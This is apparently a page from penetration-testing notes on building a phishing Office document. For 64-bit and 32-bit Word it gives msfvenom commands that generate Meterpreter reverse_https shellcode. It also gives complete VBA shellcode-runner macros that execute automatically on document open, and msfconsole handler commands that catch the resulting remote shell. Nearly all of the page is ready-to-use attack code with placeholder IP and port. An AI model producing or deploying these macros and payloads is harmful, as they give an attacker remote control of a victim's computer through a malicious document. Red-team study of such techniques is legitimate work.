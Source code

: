 ```yaml
---
title: Microsoft Office Phish
layout: default
parent: Client Side Execution
---
```


The theory is always to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, &H3000, &H40)`
2. Copy shellcode byte by byte into memory location with `RtlMoveMemory(destination, source, length)`
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`. startAddress here is the return value of `VirtualAlloc()` in step 1.

# For 64-bit!
[32-bit here](#for-32-bit)

First prepare the shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As LongPtr
  Dim res As LongPtr
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

# For 32-bit!
[64-bit here](#for-64-bit)

First prepare the shellcode:

```
msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
